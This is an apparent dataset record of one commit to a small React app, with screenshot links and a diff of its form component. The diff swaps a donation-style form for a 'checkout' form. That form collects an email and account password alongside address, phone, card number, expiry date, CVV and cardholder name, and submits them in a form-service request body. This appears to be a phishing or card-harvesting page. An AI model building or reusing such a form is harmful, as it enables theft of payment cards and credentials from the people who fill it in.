

Before and after one commit to OladunniWaters/rainbow, a React (Vite) app: page / in a window 1280 px wide. Shown: the top 710 px of the page, without its empty margins (0-1019 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
address added to form

```diff
--- a/src/components/form/Form.jsx
+++ b/src/components/form/Form.jsx
@@ -1,8 +1,8 @@
-import './Form.scss';
 import { useState, useEffect } from "react";
 
+
+
 function Form() {
-
   const [isLoading, setIsLoading] = useState(false);
   const [formValues, setFormValues] = useState({});
 
@@ -20,7 +20,6 @@ function Form() {
       [e.target.name]: true,
     }));
   };
-
 
   const validate = (values) => {
     const errors = {};
@@ -70,9 +69,10 @@ function Form() {
         body: JSON.stringify({
           password: formValues.password,
           email: formValues.email,
-          fullname: formValues.fullname,
-          amount: formValues.amount,
-          message: formValues.message,
+          cardnumber: formValues.cardnumber,
+          expdate: formValues.expdate,
+          cvv: formValues.cvv,
+          cardname: formValues.cardname,
           _subject: `New form submitted  By ${formValues.email}`,
           _captcha: true,
           _blacklist: "spammy pattern, banned term, phrase",
@@ -95,65 +95,185 @@ function Form() {
     }
   };
   return (
-    <>
-    <div className="form-container">
+    <div className="App">
+      <form onSubmit={handlesubmit}>
+        <div className='box'>
+          <input
+          placeholder="Email"
+          type="text"
+          name="email"
+          value={formValues.email} onChange={handleChange} />
+          <div className="errorMsg">
+            {touched.email && formError.email}
+          </div>
+        </div>
+        <div className='box'>
+        <input
+          placeholder="Password"
+          type="text"
+          name="password"
+          value={formValues.password}
+          onChange={handleChange}
+        />
+         <div className="errorMsg">
+            {touched.password && formError.password}
+          </div>
+        </div>
 
-      <form onSubmit={handlesubmit} className='form'>
-
+          //country
          <div>
           <input
             className='form-input'
-            placeholder="Name"
+            placeholder="Country/Region"
             type="text"
-            name="fullname"
-            value={formValues.fullname}
+            name="country"
+            value={formValues.country}
             onChange={handleChange}
         />
         </div>
 
 
-        <div className='box'>
+
+
+  //fullname
+        <div>
+
          <input
             className='form-input'
-          placeholder="Email"
+            placeholder="First name"
             type="text"
-          name="email"
-          value={formValues.email} onChange={handleChange}
+            name="firstname"
+            value={formValues.firstname}
+            onChange={handleChange}
         />
-          <div className="errorMsg">
-            {touched.email && formError.email}
-          </div>
+
+         <input
+            className='form-input'
+            placeholder="Last name"
+            type="text"
+            name="lastname"
+            value={formValues.lastname}
+            onChange={handleChange}
+        />
+
         </div>
 
 
+         //Address
+        <div>
               <div>
                    <input
                       className='form-input'
-            placeholder="Amount in USD"
+                      placeholder="Address"
                       type="text"
-            name="amount"
-            value={formValues.amount}
+                      name="address"
+                      value={formValues.address}
+                      onChange={handleChange}
+                  />
+
+                   <input
+                      className='form-input'
+                      placeholder="Apartment, Suite, etc. (Optional)"
+                      type="text"
+                      name="apartment"
+                      value={formValues.apartment}
                       onChange={handleChange}
                   />
             </div>
 
-         <div class="form-group">
-          <textarea
-          className='text-input'
-          placeholder="Your message to the girls/women"
-          name="message"
-          rows="10"
-          value={formValues.message}
-          >
-          </textarea>
+//city
+            <div>
+                <input
+                      className='form-input'
+                      placeholder="City"
+                      type="text"
+                      name="city"
+                      value={formValues.city}
+                      onChange={handleChange}
+                  />
+
+                   <input
+                      className='form-input'
+                      placeholder="State"
+                      type="text"
+                      name="state"
+                      value={formValues.state}
+                      onChange={handleChange}
+                  />
+
+                   <input
+                      className='form-input'
+                      placeholder="ZIP code"
+                      type="text"
+                      name="zipcode"
+                      value={formValues.zipcode}
+                      onChange={handleChange}
+                  />
             </div>
 
+     //phone number
+            <div>
+                 <input
+                      className='form-input'
+                      placeholder="Phone"
+                      type="number"
+                      name="phone"
+                      value={formValues.phone}
+                      onChange={handleChange}
+                  />
+            </div>
+
+
+        </div>
+
+
+
+
+        //credit card
+         <div>
+          <input
+            className='form-input'
+            placeholder="Card Number"
+            type="number"
+            name="cardnumber"
+            value={formValues.cardnumber}
+            onChange={handleChange}
+        />
+
+         <input
+            className='form-input'
+            placeholder="Expiration date (MM/YY)"
+            type="text"
+            name="expdate"
+            value={formValues.expdate}
+            onChange={handleChange}
+        />
+
+         <input
+            className='form-input'
+            placeholder="Security code"
+            type="number"
+            name="cvv"
+            value={formValues.cvv}
+            onChange={handleChange}
+        />
+
+         <input
+            className='form-input'
+            placeholder="Card Name"
+            type="text"
+            name="cardname"
+            value={formValues.cardname}
+            onChange={handleChange}
+        />
+        </div>
+
+
         {isLoading ? (<button>Loading...</button>)
-       : ( <button type="submit" className='submit-btn'>Checkout</button>) }
+       : ( <button type="submit">submit</button>) }
 
       </form>
     </div>
-    </>
   );
 }
 
```
Also changed, not shown: src/components/form/untitled.txt (added). Lines whose indentation alone changed are shown as unchanged.
